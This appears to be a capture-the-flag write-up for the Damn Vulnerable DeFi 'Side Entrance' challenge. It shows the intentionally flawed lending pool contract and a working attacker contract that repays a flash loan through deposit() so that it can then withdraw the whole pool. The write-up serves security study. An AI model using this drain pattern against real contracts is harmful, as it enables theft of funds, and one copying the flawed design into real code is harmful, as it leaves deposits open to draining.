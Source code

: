 ```yaml
---
title: Damn Vulnerable DeFi V3 - Side Entrance - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Damn Vulnerable DeFi V3 - Side Entrance CTF
---
```


# Damn Vulnerable DeFi V3 - Side Entrance - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Solution

This challenge is conveniently solved via Remix. First, we deploy the contract from Remix's default account. Next, we call `deposit`, specifying a transaction value of `42000000000000000000 == 42 ether` to fund the pool with its initial balance. (The original assignment described in Damn Vulnerable DeFi specifies a pool with an initial balance of 1000 ether instead of 42 ether. However, bumping the contract's balance up to 1000 ether is quite tedious in Remix. Since the exact pool balance doesn't really matter, we'll assume a pool balance of 42 ether instead of 1000 ether for convenience.)

With the initial setup completed, we now have to find a way to drain all funds from the contract using a different account than the one we used for the deposit.

To achieve that, we can deploy an attacker contract that will perform the following steps:

1. Call `flashLoan` to borrow 42 ether.
2. Pay back the flash loan by calling `deposit` with a value of 42 ether. Notice that this will register a deposit balance of 42 ether for the attacker contract!
3. Call `withdraw` to drain 42 ether from the pool.

All of the above steps can be performed with a single function call to `attack` using the contract shown below. Notice that

1. you must specify the victim contract's address during the deployment of the attacker contract and
2. you must specify `amount = 42000000000000000000` when calling `attack`.

```solidity
// SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract SideEntranceLenderPoolAttacker {

    SideEntranceLenderPool public sideEntranceLenderPool;

    constructor(SideEntranceLenderPool _sideEntranceLenderPool) {
        sideEntranceLenderPool = _sideEntranceLenderPool;
    }

    receive() external payable {}

    function execute() external payable {
        sideEntranceLenderPool.deposit{value: msg.value}();
    }

    function attack(uint256 amount) external {
        sideEntranceLenderPool.flashLoan(amount);
        sideEntranceLenderPool.withdraw();
    }
}
```

